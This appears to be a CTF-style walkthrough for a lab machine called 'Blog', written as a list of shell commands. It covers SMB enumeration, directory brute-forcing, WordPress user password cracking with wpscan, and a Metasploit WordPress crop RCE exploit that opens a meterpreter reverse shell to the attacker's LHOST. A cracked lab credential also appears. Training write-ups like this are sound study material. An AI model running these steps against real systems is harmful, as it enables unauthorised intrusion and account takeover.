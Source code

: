 # Blog - Medium

```shell
sudo vim /etc/hosts
#map ip to blog.thm

nmap -T4 -p- -A -Pn -v blog.thm

smbclient -L \\\\blog.thm

smbclient \\\\blog.thm\\BillySMB
#in share

dir

#get all files
mget *

exit

#inspect the files
steghide info Alice-White-Rabbit.jpg

steghide extract -sf Alice-White-Rabbit.jpg
#does not give anything useful

feroxbuster -u http://blog.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,bak,js,txt,json,docx,pdf,zip,cgi,sh,pl,aspx,sql,xml --extract-links --scan-limit 2 --filter-status 400,401,404,405,500

cmseek
#check cms used by website
#this gives us version and user

vim wpusers.txt
#add the two usernames enumerated

wpscan --url http://blog.thm -U wpusers.txt -P /usr/share/wordlists/rockyou.txt
#cracks password for one user

msfconsole -q

search wordpress 5.0

use exploit/multi/http/wp_crop_rce

options

set RHOSTS http://blog.thm

set LHOST 10.10.79.163

set USERNAME kwheel

set PASSWORD cutiepie1

run
#run the exploit
#we get meterpreter shell

shell
#drop into a command shell

```